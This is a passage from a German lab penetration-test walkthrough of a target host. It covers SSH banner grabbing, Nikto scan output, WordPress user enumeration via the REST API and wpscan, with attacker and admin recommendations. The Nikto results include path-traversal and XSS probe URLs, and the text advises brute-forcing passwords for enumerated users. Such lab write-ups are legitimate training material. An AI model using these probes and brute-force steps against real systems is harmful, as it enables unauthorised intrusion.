1. **Manuelle Überprüfung:** Jede der gefundenen URLs (`/admin.php`, `/index.php`, `/info.php`, `/phpinfo.php`, `/xmlrpc.php`, `/xmlrpc_server.php`) manuell im Browser aufrufen und mit `curl` untersuchen, um das Verhalten bezüglich Größe 0 zu verstehen. Achte dabei auf Host-Header; eventuell reagiert der Nginx-Server anders, wenn ein bestimmter Hostname (z.B. `shemhamphorash.local`, falls es einen solchen vHost gibt) verwendet wird.
2. **`phpinfo.php`:** Wenn diese Datei tatsächlich Informationen liefert, extrahiere alle sensiblen Daten.
3. **`admin.php`:** Versuche, auf diese Seite zuzugreifen und herauszufinden, um welche Art von Admin-Panel es sich handelt. Suche nach Standardanmeldeinformationen oder Schwachstellen.
4. **`xmlrpc.php`:** Prüfe auf bekannte Schwachstellen im Zusammenhang mit XML-RPC, insbesondere wenn WordPress im Spiel ist. Tools wie `wpscan` können hier helfen.
5. **Größere Wortliste/andere Tools:** Wiederhole den Scan mit einer größeren Wortliste (wie bei Gobuster zuvor) und/oder anderen Tools (ffuf, Feroxbuster) mit verschiedenen Einstellungen (z.B. unterschiedliche User-Agents, Hinzufügen von Host-Headern), um sicherzustellen, dass nichts übersehen wurde und das Verhalten bei Größe 0 zu klären.
**Empfehlung (Admin):**
1. **`phpinfo.php` entfernen/einschränken:** Wenn `phpinfo.php` existiert und Informationen preisgibt, sollte sie aus Produktionsumgebungen entfernt oder der Zugriff darauf stark eingeschränkt werden.
2. **Admin-Panel absichern:** Jede Administrationsschnittstelle (`admin.php`) muss robust abgesichert sein (starke Passwörter, Multi-Faktor-Authentifizierung, Zugriffsbeschränkung auf bestimmte IPs).
3. **XML-RPC deaktivieren/absichern:** Wenn XML-RPC (`xmlrpc.php`) nicht benötigt wird, sollte es deaktiviert werden. Wenn es benötigt wird, stelle sicher, dass es auf dem neuesten Stand ist und gegen bekannte Angriffe (Brute-Force, DDoS) geschützt ist (z.B. durch Fail2Ban oder ein Sicherheitsplugin).
4. **Unerwünschte Dateien:** Entferne alle nicht benötigten PHP-Dateien vom Server.
5. **Server-Konfiguration (Größe 0):** Untersuche, warum der Server bei existierenden Dateien Status 200 mit Größe 0 zurückgibt. Dies könnte auf eine Fehlkonfiguration oder eine beabsichtigte, aber unklare Verhaltensweise hindeuten.
(UNKNOWN) [192.168.2.202] 22222 (?) open SSH-2.0-OpenSSH_8.4p1 Debian-5 Invalid SSH identification string.
The authenticity of host '[192.168.2.202]:22222 ([192.168.2.202]:22222)' can't be established.
ED25519 key fingerprint is SHA256:+jyzFgtVHx9ScKok/d0bvAKWrR5QHEfmgQnL2WVokKo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.2.202]:22222' (ED25519) to the list of known hosts.
root@192.168.2.202's password:
**Analyse:** Diese beiden Befehle zielen auf den SSH-Dienst, der auf Port 22222 läuft. 1. **`nc -nv 192.168.2.202 22222`**: * `nc` (Netcat) ist ein vielseitiges Netzwerk-Tool. * `-n`: Verhindert DNS-Auflösung. * `-v`: Verbose-Modus. * Es wird versucht, eine TCP-Verbindung zum Zielhost auf Port 22222 herzustellen. * Die Ausgabe `(UNKNOWN) [192.168.2.202] 22222 (?) open` bestätigt, dass der Port offen ist. * Der SSH-Server antwortet mit seinem Banner: `SSH-2.0-OpenSSH_8.4p1 Debian-5`. Dies bestätigt die Version, die Nmap bereits gefunden hat. * `Invalid SSH identification string.` wird von Netcat ausgegeben, weil Netcat kein SSH-Client ist und nicht das SSH-Protokoll spricht, nachdem der Banner empfangen wurde. Die Verbindung wird dann typischerweise vom Server oder Client beendet. 2. **`ssh root@192.168.2.202 -p22222`**: * Dies ist ein direkter Versuch, sich als Benutzer `root` über SSH auf dem Zielserver auf Port 22222 (`-p22222`) anzumelden. * Da der Host-Schlüssel des Servers meinem System noch nicht bekannt ist, fragt SSH nach einer Bestätigung (`Are you sure you want to continue connecting (yes/no/[fingerprint])?`). Ich antworte mit `yes`. * Der Server wird dann zur Liste der bekannten Hosts hinzugefügt. * Schließlich wird nach dem Passwort für `root@192.168.2.202` gefragt. An dieser Stelle wird klar, dass eine Passwortauthentifizierung für Root (oder zumindest für diesen Anmeldeversuch) aktiviert ist. Ich habe hier kein Passwort eingegeben, sondern den Vorgang implizit abgebrochen, da der nächste Schritt ein Nikto-Scan ist. Ein direkter Root-Login über SSH ist oft aus Sicherheitsgründen deaktiviert, aber es ist wichtig, dies zu testen.
**Bewertung:** Netcat hat erfolgreich den SSH-Banner abgerufen und die Version bestätigt. Der SSH-Verbindungsversuch als `root` zeigt, dass eine Passwortauthentifizierung für diesen Benutzer auf dem SSH-Dienst wahrscheinlich aktiv ist. Dies ist ein potenzieller Angriffsvektor, wenn schwache oder Standardpasswörter verwendet werden. Es ist ein kritischer Fund, dass ein direkter Root-Login versucht werden kann.
**Empfehlung (Pentester):**
1. **SSH Brute-Force/Password Spraying:** Versuche, das `root`-Passwort (und Passwörter für andere potenziell existierende Benutzer, falls bekannt) mittels Brute-Force oder Password-Spraying zu erraten. Tools wie Hydra oder Medusa können hierfür verwendet werden. Beginne mit kurzen Listen gängiger Passwörter.
2. **Benutzer-Enumeration:** Wenn möglich, versuche, gültige Benutzernamen auf dem System zu enumerieren (z.B. über Web-Schwachstellen, SNMP, Finger), um gezieltere Passwortangriffe durchzuführen.
3. **SSH-Konfiguration prüfen:** Falls ein Zugriff erlangt wird, überprüfe die SSH-Konfigurationsdatei (`/etc/ssh/sshd_config`) auf sicherheitsrelevante Einstellungen (z.B. `PermitRootLogin`, `PasswordAuthentication`).
**Empfehlung (Admin):**
1. **Root-Login deaktivieren:** In der SSH-Konfigurationsdatei (`/etc/ssh/sshd_config`) sollte `PermitRootLogin` auf `no` oder `prohibit-password` gesetzt werden. Der Zugriff als Root sollte nur über `su` oder `sudo` von einem unprivilegierten Benutzerkonto aus erfolgen.
2. **Starke Passwörter erzwingen:** Stelle sicher, dass alle Benutzerkonten starke, einzigartige Passwörter verwenden.
3. **Schlüsselbasierte Authentifizierung:** Bevorzuge schlüsselbasierte Authentifizierung für SSH und deaktiviere die Passwortauthentifizierung (`PasswordAuthentication no`), wenn möglich.
4. **Fail2Ban:** Implementiere Fail2Ban oder ein ähnliches Tool, um wiederholte fehlgeschlagene Anmeldeversuche zu blockieren und Brute-Force-Angriffe zu erschweren.
5. **SSH-Banner anpassen:** Obwohl kein direkter Sicherheitsgewinn, kann das Anpassen des SSH-Banners, um weniger detaillierte Versionsinformationen preiszugeben, die Informationsgewinnung für Angreifer leicht erschweren (Security through Obscurity).
- Nikto v2.5.0 --------------------------------------------------------------------------- + Target IP: 192.168.2.202 + Target Hostname: shemhamphorash.hmv + Target Port: 8080 + Start Time: 2025-05-26 22:35:16 (GMT2) --------------------------------------------------------------------------- + Server: nginx/1.18.0 + /admin.php/: The anti-clickjacking X-Frame-Options header is not present. See: [Link: developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options | Ziel: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options] + /admin.php/: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: [Link: www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/ | Ziel: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/] + No CGI Directories found (use '-C all' to force check all possible dirs) + /admin.php/3rdparty/phpMyAdmin/db_details_importdocsql.php?submit_show=true&do=import&docpath=../: phpMyAdmin allows directory listings remotely. Upgrade to version 2.5.3 or higher. See: [Link: seclists.org/fulldisclosure/2003/Jun/536 | Ziel: https://seclists.org/fulldisclosure/2003/Jun/536] + /admin.php/phpMyAdmin/db_details_importdocsql.php?submit_show=true&do=import&docpath=../: phpMyAdmin allows directory listings remotely. Upgrade to version 2.5.3 or higher. See: [Link: seclists.org/fulldisclosure/2003/Jun/536 | Ziel: https://seclists.org/fulldisclosure/2003/Jun/536] + /admin.php/3rdparty/phpmyadmin/db_details_importdocsql.php?submit_show=true&do=import&docpath=../: phpMyAdmin allows directory listings remotely. Upgrade to version 2.5.3 or higher. See: [Link: seclists.org/fulldisclosure/2003/Jun/536 | Ziel: https://seclists.org/fulldisclosure/2003/Jun/536] + /admin.php/phpmyadmin/db_details_importdocsql.php?submit_show=true&do=import&docpath=../: phpMyAdmin allows directory listings remotely. Upgrade to version 2.5.3 or higher. See: [Link: seclists.org/fulldisclosure/2003/Jun/536 | Ziel: https://seclists.org/fulldisclosure/2003/Jun/536] + /admin.php/pma/db_details_importdocsql.php?submit_show=true&do=import&docpath=../: phpMyAdmin allows directory listings remotely. Upgrade to version 2.5.3 or higher. See: [Link: seclists.org/fulldisclosure/2003/Jun/536 | Ziel: https://seclists.org/fulldisclosure/2003/Jun/536] + /admin.php/.tools/phpMyAdmin/current/db_details_importdocsql.php?submit_show=true&do=import&docpath=../: phpMyAdmin allows directory listings remotely. Upgrade to version 2.5.3 or higher. See: [Link: seclists.org/fulldisclosure/2003/Jun/536 | Ziel: https://seclists.org/fulldisclosure/2003/Jun/536] + /admin.php/openautoclassifieds/friendmail.php?listing=alert(document.domain);: OpenAutoClassifieds 1.0 is vulnerable to a XSS attack. See: [Link: cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1145 | Ziel: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1145] + 7961 requests: 0 error(s) and 9 item(s) reported on remote host + End Time: 2025-05-26 22:35:54 (GMT2) (38 seconds) --------------------------------------------------------------------------- + 1 host(s) tested
**Analyse:** Dieser Nikto-Scan zielt spezifisch auf die zuvor mit `dirb` gefundene Datei `admin.php` auf dem Nginx-Server (Port 8080). Die Option `-C all` ist wieder aktiv. Die Ergebnisse sind: * **Server:** Nginx/1.18.0 wird bestätigt. * **Fehlende Sicherheitsheader:** Wie schon beim Apache-Server werden auch hier die fehlenden `X-Frame-Options` und `X-Content-Type-Options` Header bemängelt. * **phpMyAdmin Directory Listing:** Nikto meldet mehrfach eine sehr alte Schwachstelle in phpMyAdmin (Versionen vor 2.5.3), die Remote Directory Listings über `db_details_importdocsql.php` mit einem manipulierten `docpath` Parameter (`../`) erlaubt. Dies wird für verschiedene gängige Pfade zu phpMyAdmin getestet (z.B. `/phpMyAdmin/`, `/pma/`). Dies deutet darauf hin, dass `admin.php` möglicherweise eine Art Wrapper oder Gateway zu einer alten phpMyAdmin-Installation ist oder zumindest ähnliche Endpunkte aufweist. * **OpenAutoClassifieds XSS (CVE-2003-1145):** Nikto meldet eine Cross-Site Scripting (XSS) Schwachstelle in OpenAutoClassifieds 1.0 über den `friendmail.php` Endpunkt mit dem `listing` Parameter. Dies ist ebenfalls eine sehr alte Schwachstelle. Es ist unklar, ob `admin.php` tatsächlich Komponenten von OpenAutoClassifieds enthält oder ob Nikto hier einen generischen Test durchführt, der zufällig anschlägt oder auf eine ähnliche verwundbare Komponente trifft. Es ist wichtig zu beachten, dass Nikto oft auf Basis von Signaturen testet. Ein positiver Fund bedeutet nicht immer, dass die Schwachstelle auch tatsächlich ausnutzbar ist, besonders bei sehr alten CVEs, wenn die Zielanwendung moderner ist. Es kann sich auch um False Positives handeln oder um Tests, die auf Pfade abzielen, die unter `/admin.php/` nicht wirklich existieren, aber von Nikto als Standardpfade geprüft werden.
**Bewertung:** Die Funde von Nikto sind potenziell kritisch, müssen aber sorgfältig verifiziert werden, insbesondere die sehr alten Schwachstellen für phpMyAdmin und OpenAutoClassifieds. Wenn `admin.php` tatsächlich eine alte, verwundbare Version von phpMyAdmin oder ähnlicher Software enthält, wäre das ein signifikanter Fund. Die fehlenden Sicherheitsheader sind erneut ein valider Punkt. Die Tatsache, dass Nikto spezifische Pfade *unterhalb* von `/admin.php/` testet (z.B. `/admin.php/phpMyAdmin/...`), ist ein Hinweis darauf, wie Nikto arbeitet und dass `/admin.php` selbst möglicherweise eine Art Routing oder Applikation darstellt.
**Empfehlung (Pentester):**
1. **phpMyAdmin-Funde verifizieren:** Versuche, die gemeldeten Directory-Listing-Schwachstellen manuell auszunutzen, indem du die von Nikto gezeigten URLs (z.B. `http://shemhamphorash.hmv:8080/admin.php/phpMyAdmin/db_details_importdocsql.php?submit_show=true&do=import&docpath=../`) im Browser oder mit `curl` aufrufst.
2. **OpenAutoClassifieds XSS verifizieren:** Versuche, die XSS-Schwachstelle manuell zu triggern.
3. **`admin.php` untersuchen:** Da `admin.php` anscheinend eine zentrale Rolle spielt, muss diese Datei intensiv manuell untersucht werden. Gibt es eine Login-Seite? Welche Funktionalitäten bietet sie? Ist sie dokumentiert?
4. **Host-Header-Tests:** Da wir von `dirb` wissen, dass `/admin.php` auf Port 8080 mit Größe 0 antwortet, teste auch Nikto und manuelle Anfragen mit verschiedenen Host-Headern (z.B. `shemhamphorash.local`, falls relevant).
**Empfehlung (Admin):**
1. **Identifiziere `admin.php`:** Kläre, welche Anwendung oder welches Skript sich hinter `admin.php` auf Port 8080 verbirgt.
2. **Software aktualisieren/entfernen:** Wenn es sich um eine veraltete Version von phpMyAdmin oder einer anderen anfälligen Software handelt, aktualisiere sie dringend oder entferne sie, wenn sie nicht benötigt wird.
3. **Sicherheitsheader implementieren:** Füge die `X-Frame-Options` und `X-Content-Type-Options` Header auch in der Nginx-Konfiguration für den vHost auf Port 8080 hinzu.
4. **Input Validierung und Output Encoding:** Um XSS-Schwachstellen generell vorzubeugen, müssen alle Benutzereingaben serverseitig validiert und jegliche Ausgabe in HTML-Kontexten korrekt kodiert werden.
Initial Access
In der Phase des Initial Access versuchen wir, basierend auf den gesammelten Informationen und identifizierten Schwachstellen, einen ersten Zugriff auf das Zielsystem zu erlangen. Dies kann über verschiedene Wege geschehen, z.B. durch Ausnutzung von Web-Schwachstellen, Erraten von Passwörtern oder Verwendung von Exploits.
browser: http://shemhamphorash.local/sitecore/wp-login.php?redirect_to=http%3A%2F%2Fshemhamphorash.hmv%2Fsitecore%2Fwp-admin%2Findex.php&reauth=1
Seite wurde nicht gefunden
Die Verbindung mit dem Server shemhamphorash.local schlug fehl.
Wenn Sie die richtige Adresse eingegeben haben, können Sie Folgendes tun:
Versuchen Sie es später erneut.
Überprüfen Sie Ihre Netzwerkverbindung.
Überprüfen Sie, ob Firefox die Berechtigung hat, auf das Internet zuzugreifen (Sie sind möglicherweise verbunden, aber hinter einer Firewall).
**Analyse:** Diese Ausgabe stammt offenbar aus einem Webbrowser. Ich habe versucht, die URL `http://shemhamphorash.local/sitecore/wp-login.php?...` aufzurufen. Der Hostname `shemhamphorash.local` ist meinem System zu diesem Zeitpunkt noch nicht bekannt (in `/etc/hosts` steht bisher nur `shemhamphorash.hmv` für die IP `192.168.2.202`). Daher schlägt die DNS-Auflösung für `shemhamphorash.local` fehl, was zur Meldung "Seite wurde nicht gefunden" und "Die Verbindung mit dem Server shemhamphorash.local schlug fehl" führt. Die URL selbst deutet auf eine WordPress-Login-Seite (`wp-login.php`) im Unterverzeichnis `/sitecore/` hin. Der `redirect_to`-Parameter legt nahe, dass nach einem erfolgreichen Login auf `/sitecore/wp-admin/index.php` weitergeleitet werden soll, wobei der ursprüngliche Hostname `shemhamphorash.hmv` verwendet wird. Dies ist ein Hinweis darauf, dass es möglicherweise einen virtuellen Host (vHost) namens `shemhamphorash.local` gibt, der ebenfalls auf die IP `192.168.2.202` zeigt und WordPress-Inhalte bereitstellt.
**Bewertung:** Der Versuch, auf `shemhamphorash.local` zuzugreifen, ist fehlgeschlagen, weil der Hostname nicht aufgelöst werden konnte. Die Struktur der URL (insbesondere `/sitecore/` als potentielles WordPress-Verzeichnis und die Login-Seite) ist jedoch ein sehr wichtiger Hinweis. Es ist wahrscheinlich, dass auf dem Zielserver neben `shemhamphorash.hmv` auch der vHost `shemhamphorash.local` konfiguriert ist und eine WordPress-Instanz unter dem Pfad `/sitecore/` betreibt.
**Empfehlung (Pentester):**
1. **`/etc/hosts` anpassen:** Füge `shemhamphorash.local` zur `/etc/hosts`-Datei hinzu, ebenfalls mit der IP-Adresse `192.168.2.202`.
2. **Erneuter Zugriff:** Versuche nach der Anpassung der `/etc/hosts`-Datei erneut, die URL `http://shemhamphorash.local/sitecore/wp-login.php` aufzurufen.
3. **WordPress Enumeration:** Wenn der Zugriff auf die WordPress-Instanz möglich ist, beginne mit der spezifischen Enumeration für WordPress (Benutzer, Plugins, Themes, Versionen) mit Tools wie `wpscan`.
**Empfehlung (Admin):**
Es handelt sich hier um einen Fehler auf der Angreiferseite (fehlender Host-Eintrag). Administratoren sollten jedoch sicherstellen, dass alle konfigurierten vHosts (wie `shemhamphorash.local`) beabsichtigt und korrekt gesichert sind. Wenn nicht benötigte vHosts existieren, sollten diese entfernt werden. Die Sicherheit der WordPress-Instanz selbst ist hier der kritische Punkt.
192.168.2.202 shemhamphorash.hmv shemhamphorash.local
**Analyse:** Wie in der vorherigen Empfehlung vorgeschlagen, bearbeite ich hier die `/etc/hosts`-Datei. Der Eintrag für `192.168.2.202` wurde erweitert, um nun auch den Hostnamen `shemhamphorash.local` auf diese IP-Adresse aufzulösen. Der Eintrag lautet jetzt: `192.168.2.202 shemhamphorash.hmv shemhamphorash.local`.
**Bewertung:** Dies ist der korrekte Schritt, um das Problem des nicht auflösbaren Hostnamens `shemhamphorash.local` zu beheben. Mein System kann nun Anfragen an `shemhamphorash.local` korrekt an die IP `192.168.2.202` weiterleiten. Dies ermöglicht es mir, Webanwendungen zu untersuchen, die spezifisch auf diesen Hostnamen reagieren.
**Empfehlung (Pentester):**
Nach dieser Änderung sollte der Zugriff auf `http://shemhamphorash.local/sitecore/wp-login.php` und andere Ressourcen unter diesem Hostnamen nun möglich sein. Setze die Enumeration der WordPress-Instanz fort.
**Empfehlung (Admin):**
Keine direkten Maßnahmen aufgrund dieser lokalen Änderung beim Angreifer. Es unterstreicht jedoch die Wichtigkeit, alle aktiven vHosts auf dem Server zu kennen und abzusichern.
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 835 100 835 0 0 32659 0 --:--:-- --:--:-- --:--:-- 33400
{
"id": 1,
"name": "trumpeter",
"url": "http://shemhamphorash.local/sitecore",
"description": "",
"link": "http://shemhamphorash.local/sitecore/index.php/author/trumpeter/",
"slug": "trumpeter",
"avatar_urls": {
"24": "https://secure.gravatar.com/avatar/4166d055a98a76239312bbe214e42bbd1d159c4c70ebb974e304437afd33ad0b?s=24&d=mm&r=g",
"48": "https://secure.gravatar.com/avatar/4166d055a98a76239312bbe214e42bbd1d159c4c70ebb974e304437afd33ad0b?s=48&d=mm&r=g",
"96": "https://secure.gravatar.com/avatar/4166d055a98a76239312bbe214e42bbd1d159c4c70ebb974e304437afd33ad0b?s=96&d=mm&r=g"
},
"meta": [],
"_links": {
"self": [
{
"href": "http://shemhamphorash.local/sitecore/index.php/wp-json/wp/v2/users/1"
}
],
"collection": [
{
"href": "http://shemhamphorash.local/sitecore/index.php/wp-json/wp/v2/users"
}
]
}
}
% Total % Received % Xferd Average Speed Time Time Time Current
Dload Upload Total Spent Left Speed
100 108 100 108 0 0 4419 0 --:--:-- --:--:-- 4500
{
"code": "rest_user_cannot_view",
"message": "Sorry, you are not allowed to list users.",
"data": {
"status": 401
}
}
**Analyse:** Diese beiden `curl`-Befehle zielen auf die WordPress REST API, die standardmäßig unter dem Pfad `/wp-json/` erreichbar ist. Speziell wird der Endpunkt `/wp/v2/users/` abgefragt, um Benutzerinformationen zu erhalten. Die Ausgabe wird durch `jq` geleitet, um das JSON-Format lesbarer darzustellen. 1. **`curl ... /WP/V2/Users/1 | jq`**: * Dieser Befehl fragt Informationen über den Benutzer mit der ID 1 ab. * Die Anfrage ist erfolgreich (HTTP Status 200, implizit durch die JSON-Antwort). * Wir erhalten detaillierte Informationen über den Benutzer: * `id: 1` * `name: "trumpeter"` (Benutzername/Anzeigename) * `slug: "trumpeter"` (wahrscheinlich der Login-Name) * Links zu seiner Autorenseite und Gravatar-Bildern. * Dies ist ein klassischer Fall von Benutzer-Enumeration über die WordPress REST API. 2. **`curl ... /WP/V2/Users/2 | jq`**: * Dieser Befehl versucht, Informationen über den Benutzer mit der ID 2 abzufragen. * Die Anfrage schlägt fehl, wie die JSON-Antwort zeigt: * `code: "rest_user_cannot_view"` * `message: "Sorry, you are not allowed to list users."` * `data: { status: 401 }` (Unauthorized) * Dies bedeutet, dass der öffentliche Zugriff auf Benutzerinformationen entweder ab Benutzer-ID 2 eingeschränkt ist, der Benutzer mit ID 2 nicht existiert oder spezielle Berechtigungen hat, die eine öffentliche Einsicht verhindern, oder dass die API-Konfiguration generell das Auflisten weiterer Benutzer unterbindet. Der doppelte Schrägstrich (`//WP/`) in der URL ist wahrscheinlich ein kleiner Tippfehler, wird aber von den meisten Webservern tolerant behandelt und auf einen einzelnen Schrägstrich reduziert.
**Bewertung:** Die WordPress REST API hat uns erfolgreich den Benutzernamen "trumpeter" (mit ID 1) preisgegeben. Dies ist ein wertvoller Fund für nachfolgende Angriffsversuche wie Passwort-Brute-Forcing. Die Tatsache, dass Benutzer-ID 2 nicht öffentlich einsehbar ist, ist eine normale Sicherheitsmaßnahme, aber die Offenlegung von Benutzer-ID 1 ist bereits ein Informationsleck. Die WordPress REST API ist oft ein Quell für Benutzer-Enumeration, wenn sie nicht richtig konfiguriert oder eingeschränkt ist.
**Empfehlung (Pentester):**
1. **Benutzer "trumpeter" notieren:** Füge "trumpeter" zur Liste potenzieller Benutzernamen für Brute-Force-Angriffe hinzu (sowohl für WordPress-Login als auch für SSH, falls Benutzer auf dem System identisch sind).
2. **Weitere Benutzer-IDs testen:** Teste systematisch weitere Benutzer-IDs (3, 4, 5, ...), um festzustellen, ob noch andere Benutzer öffentlich enumeriert werden können, auch wenn ID 2 nicht ging. Manchmal sind die Berechtigungen inkonsistent.
3. **`wpscan` nutzen:** Verwende `wpscan` mit der Option `--enumerate u`, um eine umfassendere Benutzer-Enumeration durchzuführen, da `wpscan` verschiedene Techniken kombiniert.
**Empfehlung (Admin):**
1. **WordPress REST API einschränken:** Wenn die öffentliche Auflistung von Benutzern über die REST API nicht zwingend erforderlich ist, sollte sie eingeschränkt werden. Dies kann durch Plugins (z.B. Sicherheitsplugins, die REST API Endpunkte kontrollieren) oder durch benutzerdefinierte Code-Snippets in der `functions.php` des Themes oder in einem eigenen Plugin geschehen. Ziel ist es, unauthentifizierten Zugriff auf Benutzerdaten über Endpunkte wie `/wp-json/wp/v2/users` zu blockieren oder zu limitieren.
2. **Benutzernamen-Offenlegung minimieren:** Generell darauf achten, dass Benutzernamen (insbesondere von Administratoren) nicht unnötig öffentlich preisgegeben werden (z.B. in Autoren-Archiven, wenn nicht gewünscht).
_______________________________________________________________
__ _______ _____
\ \ / / __ \ / ____|
\ \ /\ / /| |__) | (___ ___ __ _ _ __ ®
\ \/ \/ / | ___/ \___ \ / __|/ _` | '_ \
\ /\ / | | ____) | (__| (_| | | | |
\/ \/ |_| |_____/ \___|\__,_|_| |_|
WordPress Security Scanner by the WPScan Team
Version 3.8.28
Sponsored by Automattic - https://automattic.com/
@_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________
[i] It seems like you have not updated the database for some time.
[+] URL: http://shemhamphorash.local/sitecore/ [192.168.2.202]
[+] Started: Mon May 26 22:54:24 2025
Interesting Finding(s):
[+] Headers
| Interesting Entry: Server: Apache/2.4.53 (Debian)
| Found By: Headers (Passive Detection)
| Confidence: 100%
[+] XML-RPC seems to be enabled: http://shemhamphorash.local/sitecore/xmlrpc.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
| References:
| - http://codex.wordpress.org/XML-RPC_Pingback_API
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
| - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
| - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
[+] WordPress readme found: http://shemhamphorash.local/sitecore/readme.html
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] Upload directory has listing enabled: http://shemhamphorash.local/sitecore/wp-content/uploads/
| Found By: Direct Access (Aggressive Detection)
| Confidence: 100%
[+] The external WP-Cron seems to be enabled: http://shemhamphorash.local/sitecore/wp-cron.php
| Found By: Direct Access (Aggressive Detection)
| Confidence: 60%
| References:
| - https://www.iplocation.net/defend-wordpress-from-ddos
| - https://github.com/wpscanteam/wpscan/issues/1299
Fingerprinting the version - Time: 00:00:03 <=============> (702 / 702) 100.00% Time: 00:00:03
[i] The WordPress version could not be detected.
[+] WordPress theme in use: twentytwentytwo
| Location: http://shemhamphorash.local/sitecore/wp-content/themes/twentytwentytwo/
| Last Updated: 2025-04-15T00:00:00.000Z
| Readme: http://shemhamphorash.local/sitecore/wp-content/themes/twentytwentytwo/readme.txt
| [!] The version is out of date, the latest version is 2.0
| Style URL: http://shemhamphorash.local/sitecore/wp-content/themes/twentytwentytwo/style.css?ver=1.1
| Style Name: Twenty Twenty-Two
| Style URI: https://wordpress.org/themes/twentytwentytwo/
| Description: Built on a solidly designed foundation, Twenty Twenty-Two embraces the idea that everyone deserves a...
| Author: the WordPress team
| Author URI: https://wordpress.org/
|
| Found By: Css Style In Homepage (Passive Detection)
|
| Version: 1.1 (80% confidence)
| Found By: Style (Passive Detection)
| - http://shemhamphorash.local/sitecore/wp-content/themes/twentytwentytwo/style.css?ver=1.1, Match: 'Version: 1.1'
[+] Enumerating All Plugins (via Aggressive Methods)
Checking Known Locations - Time: 00:01:31 <========> (106918 / 106918) 100.00% Time: 00:01:31
[+] Checking Plugin Versions (via Passive and Aggressive Methods)
[i] Plugin(s) Identified:
[+] akismet
| Location: http://shemhamphorash.local/sitecore/wp-content/plugins/akismet/
| Last Updated: 2025-05-07T16:30:00.000Z
| Readme: http://shemhamphorash.local/sitecore/wp-content/plugins/akismet/readme.txt
| [!] The version is out of date, the latest version is 5.4
|
| Found By: Known Locations (Aggressive Detection)
| - http://shemhamphorash.local/sitecore/wp-content/plugins/akismet/, status: 200
|
| Version: 4.2.2 (100% confidence)
| Found By: Readme - Stable Tag (Aggressive Detection)
| - http://shemhamphorash.local/sitecore/wp-content/plugins/akismet/readme.txt
| Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
| - http://shemhamphorash.local/sitecore/wp-content/plugins/akismet/readme.txt
[+] easy-cookies-policy
| Location: http://shemhamphorash.local/sitecore/wp-content/plugins/easy-cookies-policy/
| Latest Version: 1.6.2 (up to date)
| Last Updated: 2021-02-11T12:05:00.000Z
| Readme: http://shemhamphorash.local/sitecore/wp-content/plugins/easy-cookies-policy/README.txt
| [!] Directory listing is enabled
|
| Found By: Known Locations (Aggressive Detection)
| - http://shemhamphorash.local/sitecore/wp-content/plugins/easy-cookies-policy/, status: 200
|
| [!] 1 vulnerability identified:
|
| [!] Title: Easy Cookie Policy <= 1.6.2 - Broken Access Control to Stored Cross-Site Scripting
| References:
| - https://wpscan.com/vulnerability/9157d6d2-4bda-4fcd-8192-363a63a51ff5
| - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-24405
|
| Version: 1.6.2 (80% confidence)
| Found By: Readme - Stable Tag (Aggressive Detection)
| - http://shemhamphorash.local/sitecore/wp-content/plugins/easy-cookies-policy/README.txt
[+] Enumerating Users (via Passive and Aggressive Methods)
Brute Forcing Author IDs - Time: 00:00:00 <================> (10 / 10) 100.00% Time: 00:00:00
[i] User(s) Identified:
[+] trumpeter
| Found By: Rss Generator (Passive Detection)
| Confirmed By:
| Wp Json Api (Aggressive Detection)
| - http://shemhamphorash.local/sitecore/index.php/wp-json/wp/v2/users/?per_page=100&page=1
| Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Login Error Messages (Aggressive Detection)
[+] blessed
| Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
| Confirmed By: Login Error Messages (Aggressive Detection)
[+] WPScan DB API OK
| Plan: free
| Requests Done (during the scan): 3
| Requests Remaining: 22
[+] Finished: Mon May 26 22:56:17 2025
[+] Requests Done: 108256
[+] Cached Requests: 17
[+] Data Sent: 32.467 MB
[+] Data Received: 44.583 MB
[+] Memory used: 463.688 MB
[+] Elapsed time: 00:01:52
**Analyse:** `wpscan` ist das Standardwerkzeug für WordPress-Sicherheitsaudits. Es wird hier gegen die WordPress-Instanz unter `http://shemhamphorash.local/sitecore/` eingesetzt. * `--url http://shemhamphorash.local/sitecore`: Definiert die Ziel-URL. * `--api-token ...`: Ein API-Token für die WPScan Vulnerability Database wird verwendet (hier unkenntlich gemacht), um aktuelle Schwachstelleninformationen abzurufen. Dies ist sehr empfehlenswert. * `--enumerate ap,u`: Weist `wpscan` an, alle Plugins (`ap` - all plugins) und Benutzer (`u` - users) zu enumerieren. * `--plugins-detection aggressive`: Verwendet aggressive Methoden zur Plugin-Erkennung, was gründlicher ist, aber auch mehr Anfragen generiert. Die Ergebnisse des `wpscan` sind umfangreich und sehr wertvoll: * **Server-Header:** Bestätigt Apache/2.4.53. * **XML-RPC:** Ist aktiviert (`xmlrpc.php`). Dies ist ein bekannter Angriffsvektor für Brute-Force und DDoS-Amplification. * **WordPress `readme.html`:** Gefunden, kann manchmal die WordPress-Version verraten (hier aber nicht explizit der Fall). * **Upload-Verzeichnis mit Directory Listing:** Das Verzeichnis `wp-content/uploads/` erlaubt die Auflistung seines Inhalts. Dies kann sensible hochgeladene Dateien preisgeben. * **WP-Cron:** Externer WP-Cron (`wp-cron.php`) scheint aktiviert zu sein. Kann unter Umständen für Denial-of-Service-Angriffe missbraucht werden. * **WordPress-Version:** Konnte nicht eindeutig erkannt werden. * **Theme `twentytwentytwo` Version 